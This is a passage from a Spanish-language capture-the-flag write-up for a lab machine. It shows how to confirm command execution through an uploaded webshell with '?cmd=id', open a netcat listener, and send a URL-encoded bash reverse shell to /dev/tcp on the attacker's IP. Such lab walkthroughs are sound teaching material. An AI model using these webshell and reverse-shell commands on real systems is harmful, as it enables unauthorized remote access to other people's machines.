 Funcionó.

Ahí mismo, pasa a la subsección **Media manager** para ver nuestra **WebShell** cargada:

<p align="center">
<img src="/assets/images/THL-writeup-base/Captura17.png">
</p>

Selecciona la **WebShell** y escribe el siguiente parámetro en la URL `?cmd=id`:

<p align="center">
<img src="/assets/images/THL-writeup-base/Captura18.png">
</p>

Funciona, podemos ejecutar comandos, por lo que podemos mandar una **Reverse Shell**.

Abre un listener con **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

Ejecuta la siguiente **Reverse Shell** en la URL:
```bash
bash -c 'bash -i >%26 /dev/tcp/Tu_IP/443 0>%261'
```

<p align="center">
<img src="/assets/images/THL-writeup-base/Captura19.png">
</p>
